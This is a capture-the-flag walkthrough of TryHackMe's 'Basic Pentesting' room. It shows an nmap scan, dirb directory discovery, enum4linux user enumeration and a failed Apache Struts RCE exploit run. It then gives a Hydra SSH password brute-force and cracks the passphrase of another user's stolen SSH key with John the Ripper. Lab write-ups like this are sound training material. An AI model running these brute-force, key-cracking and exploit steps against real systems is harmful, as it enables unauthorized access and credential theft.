

# Basic Pentesting
The room on TryHackMe me is focused on enumeration and exploitation at a very basic level in a beginner-friendly. The way all the questions are queue and the hints that are provided alongside help a lot to develop a basic mindset while performing pentesting.

For solving this room, we are going to use many different tools like nmap, dirb and hydra. So, let's begin!

### Initial Foothold
1. Deploy the machine and connect to our network.

The first step is to deploy the machine and obtain the IP address for the room on which we can perform our pentesting tasks. Once the machine is deployed we can go to IP address and check what is hosted over there.



From the image, it can be seen that there is not much information available at the homepage but in the source-code, we can see that they are talking about the `dev note section`. We can run `dirb` to find out about various directories and pages hosted on this domain. 

2. Find the services exposed by the machine

`Nmap` is a very useful tool that can be used to determine the various ports open on the target machine and the services running on them. We can perform a simple scan to get all the details like:

```
tester@kali:~/Desktop/THM_Git/TryHackMe-Writeups/BasicPentesting$ nmap -A -p- -T4 10.10.56.30
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-26 16:09 IST
Warning: 10.10.56.30 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.56.30
Host is up (0.14s latency).
Not shown: 65499 closed ports, 30 filtered ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m33s, median: 0s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2020-07-26T06:57:44-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-26T10:57:44
|_  start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1127.51 seconds
```

Now, we know all the services that are running on the target machine. Hence, the question is completed.

3. What is the name of the hidden directory on the webserver(enter name without /)?

As suggested in the first question we can run a `dirb` scan to find out all the directories on the webserver.

```
tester@kali:~$ dirb http://10.10.56.30
-----------------
DIRB v2.22    
By The Dark Raver
-----------------
START_TIME: Sun Jul 26 16:12:15 2020
URL_BASE: http://10.10.56.30/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
-----------------
GENERATED WORDS: 4612                                                          
---- Scanning URL: http://10.10.56.30/ ----
==> DIRECTORY: http://10.10.56.30/development/                                                                                                                
+ http://10.10.56.30/index.html (CODE:200|SIZE:158)                                                                                                           
+ http://10.10.56.30/server-status (CODE:403|SIZE:299)                                                                                                        	                                                                                                                                                            
---- Entering directory: http://10.10.56.30/development/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)	                                                                               
-----------------
END_TIME: Sun Jul 26 16:24:55 2020
DOWNLOADED: 4612 - FOUND: 2
```

From the `dirb` results we can see that there is exactly one hidden directory and that is the answer to this question.

4. User brute-forcing to find the username & password

I found this part to be a little tricky as no login page was found, so where would I try to perform a brute-force attack. There were a few failed attempts that I've described below:

While exploring the hidden directory we come to know that Apache Struts 2.5.12 is running on the box. So, we can try to find some exploit for that service. After some googling, we can find an [RCE script](https://www.exploit-db.com/exploits/42627) for this service on exploit-db and then we can also try to run it. 

```
tester@kali:~/Downloads$ chmod +x 42627.py 
tester@kali:~/Downloads$ python3 42627.py 
CVE: 2017-9805 - Apache Struts2 Rest Plugin Xstream RCE
[*] Warflop - http://securityattack.com.br
[*] Greatz: Pimps & G4mbl3r
[*] Use: python struts2.py URL COMMAND
[*] Example: python struts2.py http://sitevulnerable.com/struts2-rest-showcase/orders/3 id
tester@kali:~/Downloads$ python3 42627.py http://10.10.56.30 whoami
<html>
<h1>Undergoing maintenance</h1>
<h4>Please check back later</h4>
<!-- Check our dev note section if you need to know what to work on. -->
</html>
```

Maybe the way we are executing this script is wrong or the entry-point at which this script must be executed is not correct. 

* We can also look for exploits related to Apache Tomcat 9.0.7 running on port 8080. But there are not any such ready-to-use exploits available for this service.

* We can also see that Samba 4.3.11 is running on port 445. So, maybe we can look for some exploit related to that. On googling, some exploits related to this service we can find [is_known_pipename](https://www.rapid7.com/db/modules/exploit/linux/samba/is_known_pipename) exploit on rapid7 which can be accessed using metasploit. But even after trying various target types and successful exploit can't be performed.

* The next thing that can to our mind is that as SMB port is open we can try some enumeration over SMB. This can be achieved through `enum4linux` which is a tool for detecting and extracting data from Windows and Linux OS, including those that are SMB clients on a network. Following details can be achieved through enum4linux:
	* Password policies on target
	* The OS of a remote target
	* Shares on a device (drives and folders)
	* Domain and group membership
	* User listing

	We can run the command `enum4linux <machien_ip>` to find the users present on the target box. This command would take some time to complete so we need to be patient as the usernames are detected at the end of the search. The output would be similar to:

	```
	[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
	S-1-22-1-1000 Unix User\kay (Local User)
	S-1-22-1-1001 Unix User\jan (Local User)
	```

For this task, we do not need to answer any question but at least we know the names of the two users on the box.

5. What is the username? 

In the previous question, we discovered that two users are present on the box. We can try entering the name of both the users one by one in the answer box for this question and the correct one would get accepted.

6. What is the password?

`Hydra` is one such tool that can be used to bruteforce passwords over numerous protocols. We can use the same here and bruteforce the password for the user that was accepted in the last question. The command and output for the same are given below:

```
tester@kali:~/Downloads/LinEnum$ hydra -l <username> -P /usr/share/wordlists/rockyou.txt -ens -f 10.10.210.4 ssh -t 4
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 19:28:48
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344401 login tries (l:1/p:14344401), ~3586101 tries per task
[DATA] attacking ssh://10.10.210.4:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344357 to do in 5433:29h, 4 active
[STATUS] 28.33 tries/min, 85 tries in 00:03h, 14344316 to do in 8437:50h, 4 active
[STATUS] 29.14 tries/min, 204 tries in 00:07h, 14344197 to do in 8203:23h, 4 active
[STATUS] 28.20 tries/min, 423 tries in 00:15h, 14343978 to do in 8477:32h, 4 active
[22][ssh] host: 10.10.210.4   login: <username>   password: xxxxxxx
[STATUS] attack finished for 10.10.210.4 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 19:57:02
```

The switches used here with hydra are:

|Switch|Use|
|------|---|
|-l|Username whose password is to be frute-forced|
|-P|The password dictionary|
|-e|Additional check `n` for null password and `s` for try login as pass|
|-f|Exit after first found login/password pair|
|-t|Number of connections that you want to run in parallel|
|ssh|Brute-force the password for SSH login|

So, now we have the password as well for the account. This is used as the answer to this question.

7. What service do you use to access the server(answer in abbreviation in all caps)?

We have used hydra to get the password for this service in the last question itself.

### Privilege Escalation
8. Enumerate the machine to find any vectors for privilege escalation 

Now that we have the credentials to gain the SSH access, we can login to that account using the obtained username and password.

Once, logged in we can look for files in the current directory as well as look for other users, their files and if we have access to them or not. We can also run the command `sudo -l`, to check if we can run some commands with root privilege but sadly we are not allowed to run any command with sudo privilege.

On further enumeration, we can see that there is another user as well that was detected by `enum4linux` as well. We can also look into the directory of that user and see if we can find some files. There is one odd file named `pass.bak` to which we don't have access. But we can access the `id_rsa` key in `.ssh` directory. With this SSH key, we can try to gain access to the other user using SSH and try to read the file. 

So, we have found a vector fir privilege escalation here!

9. What is the name of the other user you found(all lower case)?

In the previous question itself, we found out the user and the method through which we can escalate ourselves to the user's account.

10. If you have found another user, what can you do with this information? 
We have the user and their SSH key. So, we can try to access the user's account via SSH but for that, we'll need the passphrase for SSH access.

Steps to get the passphrase from `id_rsa`:
1. We can copy the entire key in a file on our local system. (I've stored it in a file named `ssh_key`)
2. Convert is to a format that `JohnTheRipper` can understand using the command: `/usr/share/john/ssh2john.py ssh_key > key_for_john`
3. Pass on the newly created `key_for_john` to john and get the key.

	```
	tester@kali:~/Downloads$ john --wordlist=/usr/share/wordlists/rockyou.txt key_for_john
	Using default input encoding: UTF-8
	Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
	Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
	Cost 2 (iteration count) is 1 for all loaded hashes
	Will run 2 OpenMP threads
	Note: This format may emit false positives, so it will keep trying even after
	finding a possible candidate.
	Press 'q' or Ctrl-C to abort, almost any other key for status
	xxxxxxx          (kay)
	1g 0:00:00:04 DONE (2020-07-26 20:37) 0.2232g/s 3201Kp/s 3201Kc/s 3201KC/sa6_123..*7¡Vamos!
	Session completed
	```
4. Boom, we now have the passphrase for the key as well.
5. Change the permissions of the file `ssh_key` using `chmod 600 ssh_key` else it won't get accepted by SSH.
6. We can access the account of the other user using SSH now but using the `ssh_key` and obtained passphrase. The command that can be used is: `ssh -i ssh_key username@<machine_ip>`. (-i is used to pass the RSA key)

10. What is the final password you obtain?

Now, we have access to the box as the other user. We can now read the file `pass.bak` and get the answer to the final question.

With this, we have solved the `Basic Pentesting` room!

### Some important points to learn

1. When you see an open SMB port, try to use `enum4linux` to get various details related to the target.
2. `Hydra` can be used for performing bruteforce attacks for various services.